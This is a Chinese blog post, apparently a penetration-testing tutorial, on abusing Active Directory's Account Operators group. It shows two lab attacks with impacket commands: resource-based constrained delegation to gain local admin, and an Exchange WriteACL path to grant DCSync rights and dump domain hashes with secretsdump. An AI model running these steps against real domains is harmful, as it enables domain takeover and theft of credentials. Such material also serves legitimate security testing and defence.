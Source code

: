 **目录**

[利用基于资源的约束性委派进行权限提升](#t0 "利用基于资源的约束性委派进行权限提升")

[Write Dcsync Acl dump域内哈希](#t1 "Write Dcsync Acl dump域内哈希")

* * *

在域渗透的过程中，我们往往只会关注Domain admins组和Enterprise Admins组，而会忽略了其它组。今天，我们要讲的是Account Operators组。该组是内置的本地域组。该组的成员可以创建和管理该域中的用户和组并为其设置权限，也可以在本地登录[域控制器](https://so.csdn.net/so/search?q=%E5%9F%9F%E6%8E%A7%E5%88%B6%E5%99%A8&spm=1001.2101.3001.7020)。但是，不能更改属于Administrators或Domain Admins组的账号，也不能更改这些组。在默认情况下，该组中没有成员。也就是说，该组默认是域内管理用户和组的特殊权限组。

![](https://img-blog.csdnimg.cn/20210429181858398.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

在实际环境中，某些企业会有专门的管理用户账号的账号，这些账号就会分配在Account Operators组中。在渗透过程中，如果我们发现已经获得权限的用户在该组中的话，我们可以利用其特殊权限进行dump域内哈希或本地权限提升。

### 利用基于资源的约束性委派进行权限提升

如果域内没有安装Exchange服务器的话，我们可以利用基于资源的约束性委派攻击除域控外的域内其他所有机器，获取这些机器的本地最高权限。

查看Account Operators组内用户，发现hack用户在内。

![](https://img-blog.csdnimg.cn/20210430125627162.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们获取到了某台机器的权限，当前登录用户为hack，但是hack并不在本地机器的管理员组中。

![](https://img-blog.csdnimg.cn/20210429183149433.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

于是我们可以新建机器账号，然后配置机器账号到指定主机的基于资源的约束性委派

![](https://img-blog.csdnimg.cn/20210429183304940.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20210429183239658.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

最后利用新建的机器账号模拟administrator用户访问指定主机的cifs协议生成票据，导入票据后，就获取了目标机器的最高权限。

```
python3 getST.py -dc-ip 10.211.55.4 xie.com/test:root -spn cifs/win7.xie.com -impersonate administrator      
export KRB5CCNAME=administrator.ccache      
python3 psexec.py -k -no-pass win7.xie.com
```


![](https://img-blog.csdnimg.cn/20210429183654662.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### Write Dcsync Acl dump域内哈希

如果域内安装了Exchange服务器的话，我们可以将指定用户添加到Exchange Trusted Subsystem组中，由于Exchange Trusted Subsystem用户组又隶属于Exchange Windows Permissions。Exchange Windows Permissions这个组默认对域有WriteACL权限。因此我们可以尝试使用WriteACL赋予指定用户Dcsync的权限。

查看Account Operators组内用户，发现hack用户在内。

![](https://img-blog.csdnimg.cn/20210430125638982.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们获取到了某台机器的权限，当前登录用户为hack，但是hack并不在本地机器的管理员组中。

![](https://img-blog.csdnimg.cn/20210429183149433.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

将hack用户自身加入到Exchange Trusted Subsystem组中

```
net group "Exchange Trusted Subsystem" hack /add /domain
```


![](https://img-blog.csdnimg.cn/20210429185105422.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

注意，这里需要将hack用户先在当前机器注销一下，重新登录。或者登录其他机器。

然后赋予hack用户自身dcsync权限

![](https://img-blog.csdnimg.cn/20210429191738296.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

使用hack用户dump域内任意用户哈希，即可接管整个域。

```
python3 secretsdump.py xie.com/hack:P@ss123@10.211.55.4 -dc-ip 10.211.55.4 -just-dc-user administrator
```


![](https://img-blog.csdnimg.cn/20210429191914276.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)